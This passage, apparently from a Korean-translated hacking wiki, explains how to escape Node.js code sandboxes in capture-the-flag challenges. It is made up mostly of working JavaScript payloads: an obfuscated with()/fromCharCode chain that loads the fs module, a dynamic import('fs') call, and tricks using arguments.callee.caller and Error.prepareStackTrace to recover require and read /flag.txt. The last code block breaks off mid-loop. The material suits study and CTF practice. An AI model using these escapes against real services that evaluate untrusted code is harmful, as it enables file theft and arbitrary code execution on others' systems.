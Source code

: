 ```javascript
/with(String)
with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)
with(require(k))
return(String(readFileSync(n)))
/)
with(this)
with(constructor)
constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```
만약 실행되기 전에 **모든 것이 정의되지 않았다면** (예: [**이 writeup**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/#miscx2fundefined55-solves)에서와 같이), 임의의 신뢰되지 않는 코드 실행을 악용하기 위해 "아무 것에서도" 유용한 객체를 생성하는 것이 가능합니다:

* import()를 사용
```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then(m=>console.log(m.readFileSync("/flag.txt", "utf8")))
```
* `require`에 간접적으로 접근하기

[다음에 따르면](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) 모듈은 Node.js에 의해 다음과 같이 함수 내부에 래핑됩니다:
```javascript
(function (exports, require, module, __filename, __dirname) {
// our actual module code
});
```
따라서 해당 모듈에서 **다른 함수를 호출**할 수 있다면, 해당 함수에서 `arguments.callee.caller.arguments[1]`을 사용하여 **`require`**에 액세스할 수 있습니다:

{% code overflow="wrap" %}
```javascript
(function(){return arguments.callee.caller.arguments[1]("fs").readFileSync("/flag.txt", "utf8")})()
```
{% endcode %}

이전 예제와 유사하게, **에러 핸들러를 사용하여** 모듈의 **래퍼**에 액세스하고 **`require`** 함수를 얻을 수 있습니다:
```javascript
try {
null.f()
} catch (e) {
TypeError = e.constructor
}
Object = {}.constructor
String = ''.constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
const oldStackTrace = Error.prepareStackTrace
try {
Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
Error.captureStackTrace(this)
this.stack
} finally {
Error.prepareStackTrace = oldStackTrace
}
}
function trigger() {
const err = new CustomError()
console.log(err.stack[0])
for (const x of err.stack) {
// use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
```